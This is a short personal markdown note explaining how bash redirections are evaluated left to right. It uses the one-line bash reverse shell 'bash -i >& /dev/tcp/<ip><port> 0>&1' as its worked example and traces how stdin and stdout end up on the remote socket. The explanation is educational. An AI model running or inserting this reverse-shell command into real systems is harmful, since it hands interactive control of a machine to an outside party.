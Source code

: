 ```yaml
---
date: 201911051527
lastmod: Wednesday, February 5, 2020 at 7:17:07 PM
tags: Linux, Redirection
---
```

# redirection in Linux

Redirections in Linux can be interpreted as following:

1. Redirections are run from left to right.
2. `>` is similar to `=`, which is an assignment
3. `&` is close to `$` in bash, which indicates variables

For the example in [[201911041338]],

```bash
bash -i >& /dev/tcp/<ip><port> 0>&1
```

Here are three parts:

1. `bash -i` which is the command to launch new shell
2. `>& /dev/tcp/<ip><port>`, which redirects the stdout of 1 to `/dev/tcp/<ip><port>` as the stdin
3. `0>&1` redirects the stdin as the stdout

The process steps are shown as following:

Initial status of `bash -i`
0=stdin
1=stdout

after `>& /dev/tcp/<ip><port>`

0=stdin
1=(stdin of) `/dev/tcp/<ip><port>` (the stdin is default)

after `0>&1`

0=(stdout of) `/dev/tcp/<ip><port>`
1=(stdin of) `/dev/tcp/<ip><port>`


Ref: [^9E9D0123FC2D] [^158BD4883761]

[^158BD4883761]: [[shell - What does "3>&1 1>&2 2>&3" do in a script? - Unix & Linux Stack Exchange]]

[^9E9D0123FC2D]: [[bash - Order of redirections - Unix & Linux Stack Exchange]]
